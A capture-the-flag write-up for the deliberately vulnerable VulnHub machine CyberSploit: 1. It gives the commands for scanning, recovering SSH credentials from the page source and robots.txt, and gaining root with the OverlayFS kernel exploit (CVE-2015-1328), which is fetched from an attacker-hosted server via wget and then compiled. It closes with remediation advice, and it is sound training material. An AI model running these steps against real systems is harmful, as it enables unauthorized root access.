




# CyberSploit: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.190 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | (in /root — shown in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/cybersploit-1,506/) |

## Attack Summary

nmap → page source (SSH username) → robots.txt base64 decode (password) → SSH → OverlayFS kernel LPE (EDB-37292) → root

## Methodology

1. Network discovery
2. Web enumeration (page source, robots.txt)
3. Base64 decode for SSH credentials
4. Kernel privilege escalation via OverlayFS (CVE-2015-1328)

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.10.0/24
nmap -sV -sC -p- 192.168.10.190
```

Findings: port 22 (SSH), port 80 (HTTP Apache).

Add to `/etc/hosts`:
```bash
echo "192.168.10.190 cybersploit.local" >> /etc/hosts
```


---

## Step 2: Web Enumeration — SSH Username

Browse to `http://192.168.10.190` and view the page source:

```bash
curl -s http://192.168.10.190 | grep -i "user\|name\|login"
```

The HTML comment or meta tag contains the SSH **username**: `itsskv`



---

## Step 3: robots.txt → Base64 Password

```bash
curl -s http://192.168.10.190/robots.txt
# Returns a base64-encoded string

curl -s http://192.168.10.190/robots.txt | base64 -d
# Decodes to SSH password
```





**Credentials:** `itsskv:<decoded_password>`

---

## Step 4: SSH Login

```bash
ssh itsskv@192.168.10.190
cat flag2.txt
# Contains binary-encoded text — decode with CyberChef (Binary → Text)
```

---

## Step 5: Privilege Escalation — OverlayFS (CVE-2015-1328 / EDB-37292)

Check kernel version:
```bash
uname -a
# 3.x kernel — vulnerable to OverlayFS LPE
```

Download and compile the exploit:
```bash
# On attacker machine
wget https://www.exploit-db.com/download/37292 -O ofs.c
python3 -m http.server 8000

# On victim machine
cd /tmp
wget http://<ATTACKER_IP>:8000/ofs.c
gcc ofs.c -o ofs
./ofs
id
# uid=0(root)
```

```bash
cat /root/flag.txt
```



---

## Lessons Learned

1. **Credentials in HTML source** — username visible in page comments; never expose auth hints client-side
2. **robots.txt is public** — base64 is encoding, not encryption; discloses credentials to any visitor
3. **Unpatched kernel** — OverlayFS (CVE-2015-1328) affects kernels < 3.19.1 on Ubuntu; keep kernels updated
4. **Base64 is not a secret** — always use proper password storage and transmission channels

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Username in HTML source | Remove all auth hints from client-facing code |
| Password in robots.txt (base64) | Remove credentials from web-accessible files entirely |
| OverlayFS kernel LPE (CVE-2015-1328) | Upgrade kernel to ≥ 3.19.1; apply vendor patches |
